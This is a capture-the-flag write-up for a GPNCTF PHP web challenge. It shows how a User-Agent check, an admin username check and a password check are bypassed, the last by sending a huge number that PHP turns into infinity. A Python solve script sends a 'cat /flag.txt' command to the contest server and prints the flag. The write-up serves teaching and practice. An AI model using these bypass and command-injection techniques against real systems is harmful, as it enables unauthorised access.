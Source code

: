 # Never gonna tell a lie and type you

## Description
```
todo
```

## Provided Files
```
- index.php
- Dockerfile
```

## Writeup

Starting off, we should inspect the given `index.php` of the challenge. <br/>
```php
if ($_SERVER['HTTP_USER_AGENT'] != "friendlyHuman"){
    die("we don't tolerate toxicity");
}
```
To bypass the first check we need to pass the header `User-Agent: friendlyHuman` to the server. <br/>

```php
if($user_input->{'user'} === "admin🤠") { ... }
```
To pass the `user` check we can simply add `user: admin🤠` to our payload. <br/>

The main challenge is the bypass of the `securePassword` function. <br/>
```php
function securePassword($user_secret){
    if ($user_secret < 10000){
        die("nope don't cheat");
    }
    $o = (integer) (substr(hexdec(md5(strval($user_secret))),0,7)*123981337);
    return $user_secret * $o ;
    
}
```

To retrieve the flag we need to pass some kind of `input` which is equal to the output of the `securePassword` function with our `input`. <br/>

The `securePassword` function takes our input `hashes` and `encodes` it before it is being multiplied again by `123981337`. <br/>
To return the same output as input we essentially have to pass a value which can't be altered anymore because of its state. One instance of this would be the number `Infinity` as it can't get any bigger. <br/>
Knowing all of these parameters and the location of `flag.txt` from the `Dockerfile`, we can put a python script together to retrieve the flag. <br/>
```py
import requests, json, hashlib

base_URL = 'https://durch-den-monsun--tokio-hotel-8626.ctf.kitctf.de/'

headers = {
    'User-Agent': 'friendlyHuman',
    'Content-Type': 'application/x-www-form-urlencoded'
}

payload = {
    'user': 'admin🤠',
    'password': 9*10**1000, 
    'command': 'cat /flag.txt'
}

data = {
    'data': json.dumps(payload)
}

res = requests.post(base_URL, headers=headers, data=data)

print(res.text)
```

Executing the script reveals the flag which concludes this writeup. <br/>
```sh
$ python3 solve.py 
object(stdClass)#1 (3) {
  ["user"]=>
  string(9) "admin🤠"
  ["password"]=>
  float(INF)
  ["command"]=>
  string(13) "cat /flag.txt"
}
GPNCTF{1_4M_50_C0NFU53D_R1GHT_N0W}
hail admin what can I get you GPNCTF{1_4M_50_C0NFU53D_R1GHT_N0W}
```